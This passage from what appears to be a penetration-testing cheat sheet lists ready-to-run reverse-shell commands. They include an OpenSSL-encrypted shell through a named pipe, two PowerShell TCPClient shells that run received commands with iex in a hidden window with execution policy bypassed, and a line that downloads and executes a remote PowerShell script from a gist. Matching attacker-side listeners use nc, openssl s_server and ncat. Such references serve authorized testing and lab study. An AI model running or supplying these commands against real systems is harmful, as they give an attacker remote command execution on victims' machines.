 ```bash
# syntax: nc -lvnp {port}
nc -lvnp 1337
```

#### Secure Reverse Shell <a name='ssl'></a>
```bash
# on the victim machine
# syntax: mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect {attacker IP}:{port} > /tmp/s; rm /tmp/s
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.10.14.32:1337 > /tmp/s; rm /tmp/s

# on the attacker machine
# Generating ssl cert and key
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
# configuring on the specified port and listenting
# syntax: openssl s_server -quiet -key key.pem -cert cert.pem -port {port}
openssl s_server -quiet -key key.pem -cert cert.pem -port 1337
# or ncat instance 
# syntax: ncat --ssl -vv -l -p {port}
ncat --ssl -vv -l -p 1337
```

#### Powershell <a name='ps'></a>
```bash
# on the victim machine
# 1.syntax: powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("{attacker IP}",{port});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.32",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

# 2.Syntax: powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('{attacker IP}',{port});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.32',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# 3. Modify the IP in this file and replace share it to the victim
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')

# on the attacker machine
# syntax: nc -lvnp {port}
nc -lvnp 1337
```
